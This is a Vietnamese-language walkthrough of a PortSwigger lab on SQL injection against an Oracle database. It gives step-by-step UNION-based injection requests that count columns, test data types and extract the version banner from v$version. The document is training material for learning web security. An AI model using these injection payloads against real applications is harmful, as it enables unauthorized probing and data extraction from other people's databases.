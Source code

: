 # [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để lấy phiên bản của db.

quá trình:
1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
	- Kết quả: ![8fe46860956051009997c1633e8f4cd8.png](../../../../../../_resources/8fe46860956051009997c1633e8f4cd8.png)
	- Lỗi từ số 3 => có 2 cột.
4. Tuy nhiên khi sử dụng UNION thì bị lỗi hết: ![b766aad2fdfd3288ca89d20be2380e78.png](../../../../../../_resources/b766aad2fdfd3288ca89d20be2380e78.png)
5. Đọc hint: ![15af307d8d6e9726d34605fabefe0b33.png](../../../../../../_resources/15af307d8d6e9726d34605fabefe0b33.png)
=> sửa lại SQLi: `GET /filter?category='UNION+SELECT+NULL,NULL+FROM+dual-- HTTP/1.1`
6. Kiểm tra cả 2 cột thì đều là kiểu string: ![449559a9611d485958b6070dec15fa8c.png](../../../../../../_resources/449559a9611d485958b6070dec15fa8c.png)
`GET /filter?category='UNION+SELECT+'s','s'+FROM+dual-- HTTP/1.1`
7. Truy cập tới [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) để tìm cách lấy phiên bản của oracle:
- `SELECT banner FROM v$version`
- `SELECT version FROM v$instance`
8. SQLi lấy phiên bản: 
`GET /filter?category='UNION+SELECT+banner,NULL+FROM+v$version-- HTTP/1.1`
Kết quả: ![6a66a748ed9c71f28ce4705a54b3f326.png](../../../../../../_resources/6a66a748ed9c71f28ce4705a54b3f326.png)
=> Lab Solved

References:
- https://www.oracletutorial.com/oracle-basics/oracle-dual-table/
